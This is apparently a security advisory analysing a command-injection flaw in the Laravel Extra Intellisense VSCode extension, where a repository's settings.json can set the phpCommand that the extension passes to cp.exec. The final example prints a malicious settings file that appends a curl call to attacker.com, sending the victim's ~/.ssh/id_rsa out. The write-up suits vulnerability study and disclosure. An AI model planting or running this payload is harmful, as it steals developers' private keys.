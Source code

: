 ### Preconditions
1. The victim must open a repository with VSCode that contains a malicious `.vscode/settings.json` file
2. The Laravel Extra Intellisense extension must be installed
3. The repository must appear to be a Laravel project (contain an artisan file)

### Source Code Analysis
The vulnerability is primarily in the `runPhp` method in `helpers.ts`:

```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/\"/g, "\\\"");
    if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
        code = code.replace(/\$/g, "\\$");
        code = code.replace(/\\\\'/g, '\\\\\\\\\'');
        code = code.replace(/\\\\"/g, '\\\\\\\\\"');
    }
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
    let command = commandTemplate.replace("{code}", code);

    // Then executes using cp.exec()
    cp.exec(command,
        { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
        function (err, stdout, stderr) {
            // handle output
        }
    );
}
```

The vulnerability occurs because:

1. The extension reads the `phpCommand` configuration, which can be set in the repository's `.vscode/settings.json`
2. It performs simple string replacement of `{code}` with the PHP code to execute
3. The resulting command is passed directly to `cp.exec()` without any validation
4. If an attacker includes shell metacharacters or command separators in the `phpCommand` configuration, they can inject additional commands

For example, a malicious repository might include:

```json
{
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & curl -s http://attacker.com/exfil.php?data=$(cat ~/.ssh/id_rsa)"
}
```

When the extension starts up, it will run various PHP code snippets to gather information about the Laravel project, and each execution will trigger the malicious command.
